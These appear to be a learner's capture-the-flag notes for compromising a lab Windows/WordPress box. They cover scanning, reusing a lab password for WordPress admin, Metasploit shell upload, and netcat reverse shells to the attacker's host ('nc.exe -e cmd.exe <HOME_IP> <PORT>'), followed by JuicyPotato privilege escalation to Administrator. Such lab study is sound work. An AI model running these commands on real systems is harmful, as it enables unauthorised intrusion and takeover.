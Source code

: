 - 10.10.10.29

- nmap for open ports
	- 80: http
		- Microsoft IIS
	- 3306: mysql
		- MySQL
	- no known vulns

- website
	- gobuster
		- -> /wordpress, 		
	- on the site, some searches and inputs BUT
	- since it's wordpress - run possible vulns through metasploit

- metasploit the wordpress
	- use previous password (from Vaccine postrgre)
		- `postgres:P@s5w0rd!`
		- guess the login creds combo
	- use login site `/wordpress/wp-login.php`
	- `admin:P@s5w0rd!`
	- version 5.2.1
	- `use unix/webapp/wp_admin_shell_upload)`
		- fill out options
	- => meterpreter
		- change local dir `lcd /home/username/Downloads`
		- `cd C:/inetpub/wwwroot/wordpress/wp-content/uploads`
		- `upload nc.exe`
		- set up listener
		- run the shell from target `execute -f nc.exe -a "-e cmd.exe <HOME_IP> <PORT>"`
		- reverse shell - check

 - privilege escalation
	 - `sysinfo` in meterpreter
		 - Windows Server 2016
	 - upload JuicyPotato.exe
		 - `echo STARTC:\inetpub\wwwroot\wordpress\wp-content\uploads\nc.exe -e powershell.exe <HOME_IP> <PORT> > shell.bat`
	 - set up listener
	 - `JuicyPotato.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\uploads\shell.bat -l 1337`
	 - => you get Administrator